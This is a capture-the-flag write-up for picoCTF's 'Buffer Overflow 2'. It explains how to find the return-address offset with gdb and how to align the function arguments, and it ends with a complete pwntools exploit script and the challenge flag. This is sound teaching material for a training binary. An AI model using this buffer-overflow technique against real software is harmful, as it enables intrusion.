









# CTF Write-Up: [Buffer Overflow 2][Binary Exploitation]

## Description
>Control the return address and arguments
This time you'll need to control the arguments to the function you return to!


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{argum3nt5_4_d4yZ_59cd5643}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- gdb
- pwntools

## Write-Up

### Preparatory Phase
First ran `checksec vuln` on the binary in order to determine the architecture and what protections the file had in place. 

I then conducted static analysis of the given `.c` file. There was a `win` function which read the flag file. However, the flag file would only be printed if the function arguments were of a certain value namely `arg1 = 0xCAFEF00D` and `arg2 = 0xF00DF00D`.

I now, then used gdb to obtain the address of the `win` function. I ran the binary multiple times to ensure the address was fixed and not randomised.

Like with most buffer-overflow exercises, the next step was to find the offset to the `eip` register (instruction pointer on 32-bit systems). Using `gdb-peda` it can do this via the following steps. 
1. Create a pattern file via `pattern create <size> <name>`
2. Run the file under `gdb` and pass in the file as input i.e. `r < <file_name>`
3. If the file does segementation fault, obtain the memory address where it states `Invalid $PC address: <address>` as below

4. Otherwise, if program does not segmentation fault repeat step 1 with a bigger file-size.
5. Run `pattern offset <address obtained from step 4>`, this is the offset to our instruction pointer.


### Attack Phase

I have a rough idea of the payload which consists of `112 bytes of junk + <address of function> + <arguments?>`. However, I need to know how arguments are passed into a function. Using `gdb` I find that the program does a `cmp` instruction on the value at `ebp + 8 bytes` and `ebp + 12 bytes.` My first attempt at a payload was `112 * "A" + <win address> + 0xcafef00d + 0xf00df00d`. I found the value `0xcafef00d` was at `ebp + 0x4`, rather than `ebp + 0x8`.

Therefore I padded it with 4 bytes. Now using gdb I find that it was aligned perfectly. 

.
Using pwntools we were able to obtain the flag:



### Final Solution/Payload
```py
from pwn import *

local = False
host = 'saturn.picoctf.net'
port = 61932

if local: 
    io = process('./vuln')
else:
    io = remote(host, port)

win_address = p32(0x8049296)
padding = b'B'*4
arg_1 = p32(0xCAFEF00D)
arg_2 = p32(0xF00DF00D)

payload = b'A'* 112

payload += win_address 
payload += padding
payload += arg_1
payload += arg_2

io.recv()
io.sendline(payload)
resp = io.recvall()
print(resp)
```

### Lessons Learnt
- For binary exploitation exercises being competent with gdb can go a long-way. I spent too long trying to figure out why my solution was initially not working, however upon examining with gdb I found the need to offset by 4 bytes in order for the function arguments to be utilised. 
## References
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://github.com/longld/peda

